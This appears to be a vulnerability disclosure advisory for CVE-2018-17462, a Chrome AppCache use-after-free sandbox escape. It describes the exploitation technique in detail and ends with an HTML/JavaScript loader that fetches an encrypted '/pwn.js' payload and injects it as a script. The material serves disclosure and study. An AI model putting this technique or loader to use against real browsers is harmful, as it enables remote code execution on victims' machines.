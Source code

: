 **Vulnerability Summary**<br>
The vulnerability exists in the AppCache subsystem in Chrome Versions 69.0 and before. This code is located in the privileged browser process outside of the sandbox. The renderer interacts with this subsystem by sending IPC messages from the renderer to the browser process. These messages can cause the browser to make network requests, which are also attacker-controlled and influence the behavior of the code.

**Vendor Response**<br>
Vendor has fixed the issue in Google Chrome version 70.

**CVE**<br>
CVE-2018-17462

**Credit**<br>
Independent security researchers, Ned Williamson and Niklas Baumstark, had reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected systems**<br>
Google Chrome Versions 69.0 and before.

**Vulnerability Details**<br>
The vulnerability exists in the AppCache subsystem in Chrome. The buggy code is accessible with IPC messages from the renderer process to the broker process.AppCache is a reference-counted object. It is possible to trigger the RemoveCache function while the object is being destructed, thus incrementing the reference-count of freed object by N.

<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Chrome-Sandbox-escape-Removecache-root-cause-analysis.png"><br>

Notice that `newest_complete_cache` is the destructed object. A fix is possible by calling CancelUpdate after setting the `newest_complete_cache` to be NULL.
Further exploiting is achieved by decrementing an object reference-count to 0. Once a reference is taken to the object and being destroyed, the reference-count would reach 0 and the object would be freed, thus creating a stronger use-after-free. (should be called type confusion?)

**Exploit**<br>
This bug provides us two essential primitives: use-after-free decrement-by-N of the first dword of the freed object, where N is controlled. If in the process of decrementing, the first dword reaches 0, the AppCache destructor is called and the pointer is freed.
We use these primitives in two stages: first, to construct a leak, and second, to trigger code execution. The freed AppCache object has size 0xA0 bytes. We found that net::CanonicalCookie has the same size, so we can spray cookies in the browser process by making a network request and including cookies in the response.
std::string name is the first object in the CanonicalCookie. This name is the key from the key/value pair name=value from the cookie string. On Windows STL, the first qword of a std::string object is a pointer to the string data. By using decrement-by-N, we leak a number of bytes by reading the cookie back from the browser and scanning the name field. This leak gives us a heap address, which allows us to spray the heap and predictably place controlled data at a now-known address.
To achieve code execution, we produce a single dangling reference to a freed AppCache via the described vulnerability. We reclaim it with a blob of the same size, forging a reference count of 1 and a fake AppCacheGroup with reference count 0. Once we remove the dangling reference and enter the AppCache destructor, the else branch of the RemoveCache method will cause the AppCacheGroup to be freed due to its reference count going from 0 to 1 and back to 0.

```c++
void AppCacheGroup::RemoveCache(AppCache* cache) {
  DCHECK(cache->associated_hosts().empty());
  if (cache == newest_complete_cache_) {
    // ...
  } else {
    scoped_refptr<AppCacheGroup> protect(this);
    // ...
  }
}
```

The AppCacheGroup destructor in turn performs a virtual call, which
we fully control.

```c++
AppCacheGroup::~AppCacheGroup() {
  // ...
  if (update_job_)
    delete update_job_; // <- code execution here
}
```
Due to the once-per-boot ASLR approach of Windows, all modules are loaded
at the same address in the renderer and broker process. We use a gadget
from __longjmp_internal to bootstrap the ROP. From there we can either
jump to shellcode or open notepad.

```html
<head>
<title>owning, please wait...</title>
<style>
body{background:white;font-size:0.8em;}
document{background:white;}
</style>
</head>
<pre id="progress"></pre>
<pre id="progress-rce"></pre>
<pre id="progress-infoleak"></pre>
<pre id="progress-rip"></pre>
<script src="crypto/BigInteger.js"></script>
<script src="crypto/aes.js"></script>
<script>
print = alert;
var g = bigInt("115740200527109164239523414760926155534485715860090261532154107313946218459149402375178179458041461723723231563839316251515439564315555249353831328479173170684416728715378198172203100328308536292821245983596065287318698169565702979765910089654821728828592422299160041156491980943427556153020487552135890973413");
var p = bigInt("124325339146889384540494091085456630009856882741872806181731279018491820800119460022367403769795008250021191767583423221479185609066059226301250167164084041279837566626881119772675984258163062926954046545485368458404445166682380071370274810671501916789361956272226105723317679562001235501455748016154805420913");
var bits = 1024;
var algo = {
    'name': 'AES-CBC',
    'iv': new Uint8Array(16),
};
function rand(bits) {
    var a = new Uint8Array(Math.ceil(bits / 8));
    window.crypto.getRandomValues(a);
    var digits = [];
    a.forEach((x) => digits.push(bigInt(x)));
    return bigInt.fromArray(digits, 256, false);
}
async function aesDecrypt(s, cipher) {
    var bytes = new Uint8Array(s.toArray(256).value
        .map((x) => 0^x.toString()).slice(0, 16));
    if (typeof crypto.subtle !== 'undefined') {
        var key = await window.crypto.subtle.importKey(
            'raw', bytes, algo, false, ['decrypt', 'encrypt']);
        var plain = await window.crypto.subtle.decrypt(algo, key, cipher);
    } else {
        var aes = new aesjs.ModeOfOperation.cbc(bytes, algo.iv);
        var plain = aes.decrypt(cipher);
        var padLen = plain[plain.length - 1];
        plain = plain.slice(0, plain.length - padLen);
    }
    return plain;
}
async function fetchDH(url, ascii = true) {
    var a = rand(bits);
    var A = g.modPow(a, p);
    var res = await (await fetch(url + '?x=' + A.toString())).json();
    var B = bigInt(res.B);
    var s = B.modPow(a, p);
    var cipher = new Uint8Array(res.result);
    var buf = await aesDecrypt(s, cipher);
    if (ascii)
        return String.fromCharCode.apply(null, new Uint8Array(buf));
    else
        return buf;
}
async function go_enc() {
    var js = await fetchDH('/pwn.js');
    var el = document.createElement('script');
    el.innerHTML = js;
    document.body.appendChild(el);
}
async function go_plain() {
    var el = document.createElement('script');
    el.setAttribute('src', '/pwn.js');
    document.body.appendChild(el);
}
</script>
```
